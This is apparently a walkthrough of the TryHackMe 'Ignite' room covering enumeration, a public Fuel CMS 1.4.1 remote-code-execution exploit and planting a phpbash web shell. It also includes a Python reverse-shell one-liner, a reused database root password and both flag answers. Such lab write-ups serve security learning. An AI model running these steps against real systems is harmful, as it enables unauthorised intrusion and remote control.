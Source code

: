 ## Ignite - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/ignite)

**Root it!**

<i>Root the box! Designed and created by DarkStar7471, built by Paradox.</i>

<i>Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.</i>

**IP: 10.10.30.6**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Web <br>

**Tools Used**: Nmap, Feroxbuster

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Firstly, I do Nmap and Feroxbuster for enumeration.
  ```
  nmap -A -p- 10.10.30.6 -> only 80 open, Apache httpd 2.4.18 ((Ubuntu))
  ```

  ```
  feroxbuster -u http://10.10.30.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

  [#>------------------] - 13m    67755/964214  3h      found:33      errors:57845  
  [#>------------------] - 13m     7697/87650   10/s    http://10.10.30.6/ 
  [#>------------------] - 13m     8094/87650   11/s    http://10.10.30.6/fuel/ 
  [#>------------------] - 13m     6802/87650   9/s     http://10.10.30.6/fuel/modules/ 
  [#>------------------] - 13m     6985/87650   9/s     http://10.10.30.6/assets/ 
  [#>------------------] - 13m     5474/87650   7/s     http://10.10.30.6/assets/images/ 
  [#>------------------] - 13m     5464/87650   7/s     http://10.10.30.6/assets/docs/ 
  [#>------------------] - 13m     5354/87650   7/s     http://10.10.30.6/assets/pdf/ 
  [#>------------------] - 13m     5831/87650   8/s     http://10.10.30.6/assets/css/ 
  [#>------------------] - 12m     5304/87650   7/s     http://10.10.30.6/assets/js/ 
  [#>------------------] - 12m     5273/87650   7/s     http://10.10.30.6/fuel/licenses/ 
  [#>------------------] - 12m     5339/87650   7/s     http://10.10.30.6/assets/cache/ 
  ```
  
- I also ran `nikto` but it only found `robots.txt` so yeah...

---

## ⚙️ Shell Access

- So I searched `fuel cms exploit` and found it immediately for version 1.4.1. Download the exploit and comment `proxy`, also delete `proxies=proxy` since you don't need proxy at all.<br>
[fuel CMS 1.4.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47138)

- To gain shell, simply use the exploit with python2. I saved mine exploit as `fuel_cms_exploit.py`, when you download it from `Exploits-DB` it will be saved as `47138.py`
  
  ```python2 fuel_cms_exploit.py```
  
- Perfect! I have shell but it's printing whole response after each command, so I started looking for a resolution to remove those responses.

- I found that `phpbash.php` will do exactly what I need, here's the link, download `.php` file to your Kali machine and then transfer it to the target machine.<br>
  [phpbash](https://github.com/Arrexel/phpbash/blob/master/phpbash.php)
  
  ```
  python3 -m http.server 80 -> my machine
  wget http://[YOUR-THM-IP]:80/phpbash.php -> target machine
  ```

- When it's done, go to: http://10.10.30.6/phpbash.php and you will have interactive shell! Pretty cool right? Now let's find some flags shall we!

---

## 🧍 User Privilege Escalation

- OK, getting user flag is always easy, just go through target system and you will find it. It's in the `/home/www-data/` directory.
  ```
  cat /home/www-data/flag.txt
  6470e394cbf6dab6a91682cc8585059b
  ```
  
- First one done, moving to escalation to get root flag.

---

## 👑 Root Privilege Escalation

- This one wasn't that hard to find. First thing what I did was to get shell on my actual terminal since it is easier for me to work there. Start a `netcat` listener and connect it with target machine.
  ```
  my machine -> nc -lvnp 7777
  target machine -> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR-THM-IP]",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
  ```
  
- Ok, awesome, I have shell in my terminal, let's change it to `putty`
  ```
  python -c 'import pty; pty.spawn("/bin/bash")'
  ctrl+Z -> backgrounds shell
  stty raw -echo;fg
  ```
  
- Now let's get root, when I did `sudo -l` it asked me for password and I also enumerated all writable files on machine
  ```
  find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

  144391 388 -rwsr-xr-- 1 root dip 394984 Jun 12 2018 /usr/sbin/pppd
  265987 20 -rwsr-xr-x 1 root root 18664 Mar 17 2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
  139989 16 -rwsr-xr-x 1 root root 14864 Jan 15 2019 /usr/lib/policykit-1/polkit-agent-helper-1
  142068 100 -rwsr-sr-x 1 root root 98440 Jan 29 2019 /usr/lib/snapd/snap-confine
  134963 44 -rwsr-xr-- 1 root messagebus 42992 Jan 12 2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  144205 12 -rwsr-sr-x 1 root root 10584 Oct 25 2018 /usr/lib/xorg/Xorg.wrap
  139780 420 -rwsr-xr-x 1 root root 428240 Jan 31 2019 /usr/lib/openssh/ssh-keysign
  135261 12 -rwsr-xr-x 1 root root 10232 Mar 27 2017 /usr/lib/eject/dmcrypt-get-device
  130720 40 -rwsr-xr-x 1 root root 40432 May 16 2017 /usr/bin/chsh
  131038 76 -rwsr-xr-x 1 root root 75304 May 16 2017 /usr/bin/gpasswd
  131440 40 -rwsr-xr-x 1 root root 39904 May 16 2017 /usr/bin/newgrp
  131613 24 -rwsr-xr-x 1 root root 23376 Jan 15 2019 /usr/bin/pkexec
  139620 12 -rwsr-xr-x 1 root root 10624 May 8 2018 /usr/bin/vmware-user-suid-wrapper
  131991 136 -rwsr-xr-x 1 root root 136808 Jul 4 2017 /usr/bin/sudo
  130718 52 -rwsr-xr-x 1 root root 49584 May 16 2017 /usr/bin/chfn
  131503 56 -rwsr-xr-x 1 root root 54256 May 16 2017 /usr/bin/passwd
  783517 40 -rwsr-xr-x 1 root root 40128 May 16 2017 /bin/su
  783491 44 -rwsr-xr-x 1 root root 44680 May 7 2014 /bin/ping6
  783465 140 -rwsr-xr-x 1 root root 142032 Jan 28 2017 /bin/ntfs-3g
  783490 44 -rwsr-xr-x 1 root root 44168 May 7 2014 /bin/ping
  783453 40 -rwsr-xr-x 1 root root 40152 May 16 2018 /bin/mount
  783537 28 -rwsr-xr-x 1 root root 27608 May 16 2018 /bin/umount
  783416 32 -rwsr-xr-x 1 root root 30800 Jul 12 2016 /bin/fusermount
  ```

- So, I did more enumeration in order to get root's password but couldn't do it, then I remembered that I saw database configuration somewhere on targets web page. When I visited database page I found the location of database!
  ```
  cat fuel/application/config/database.php  
  db['default'] = array(
          'dsn'   => '',
          'hostname' => 'localhost',
          'username' => 'root',
          'password' => 'mememe',
          'database' => 'fuel_schema',
          'dbdriver' => 'mysqli',
          'dbprefix' => '',
          'pconnect' => FALSE,
          'db_debug' => (ENVIRONMENT !== 'production'),
          'cache_on' => FALSE,
          'cachedir' => '',
          'char_set' => 'utf8',
          'dbcollat' => 'utf8_general_ci',
          'swap_pre' => '',
          'encrypt' => FALSE,
          'compress' => FALSE,
          'stricton' => FALSE,
          'failover' => array(),
          'save_queries' => TRUE
  );
  ```

- Perfect! That's it! Now I have root's password which is `mememe`, just need to get the flag now.
  ```
  su root
  mememe
  
  cat /root/root.txt
  b9bbcb33e11b80be759c4e844862482d 
  ```

---

## 🏁 Flags

- **User Flag**: `6470e394cbf6dab6a91682cc8585059b`
- **Root Flag**: `b9bbcb33e11b80be759c4e844862482d`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding root's password since I knew that I saw database configuration somewhere but couldn't remember where...`

- What did I learn?
  `Nothing new besides using phpbash.php which was cool tho.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
